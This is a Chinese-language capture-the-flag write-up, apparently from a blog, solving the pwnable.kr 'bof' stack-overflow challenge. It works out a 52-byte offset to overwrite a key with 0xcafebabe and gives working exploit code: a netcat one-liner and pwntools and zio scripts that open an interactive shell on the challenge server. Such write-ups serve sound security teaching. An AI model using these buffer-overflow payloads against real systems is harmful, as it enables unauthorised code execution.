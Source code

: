 EAX中存储的为输入数据的首地址`0xffffce9c`,栈地址`0xffffced0`处存储的是func()调用的时候传入的key`0xdeadbeef`,现在算算0xffffced0-0xffffce9c=0x34,也就是52个字节，在后面加上`0xcafebabe`就覆盖了key，成功跳转

#### 0x03 构造并编写exp

系统只是调用了system函数，没有发现输入的话就会`终止`掉，所以我们可以向它传递一个标准输入：(cat -)

```
 ⚙/pwn/pwnable.kr/bof (python -c "print 'x'*52 +'\xbe\xba\xfe\xca'")|nc pwnable.kr 9000 
*** stack smashing detected ***: /home/bof/bof terminated
overflow me :
```

```
(python -c "print 'x'*52 +'\xbe\xba\xfe\xca'";cat -)|nc pwnable.kr 9000
```

这里若没有cat，因为nc的单向连接时`非持续性`的，那么传完payload后一个tcp会话就结束了，也就是没机会传cmd命令了，而加入cat，则让nc的这个tcp会话永不结束，直到用户输入Ctri+C。而cat又比较特殊，可以将用户输入原封不动返回并重定向给了nc...

下面是用`pwntools`写的自动化攻击脚本：

``` python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *

payload = 'a'*52+'\xbe\xba\xfe\xca'

p = remote('pwnable.kr',9000)
p.sendline(payload)
p.interactive()
p.close()
```

下面是用`zio`写的自动化攻击脚本：

``` python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from zio import *
host = "pwnable.kr"
port = 9000
io = zio((host,port),print_read=False,print_write=False)
payload = "A"*52 + "\xbe\xba\xfe\xca" + "\n"
io.write(payload+"\n")
io.interact()
```

### flag

> **题目描述：**
> Papa brought me a packed present! let's open it.
> Download : http://pwnable.kr/bin/flag
> This is reversing task. all you need is binary
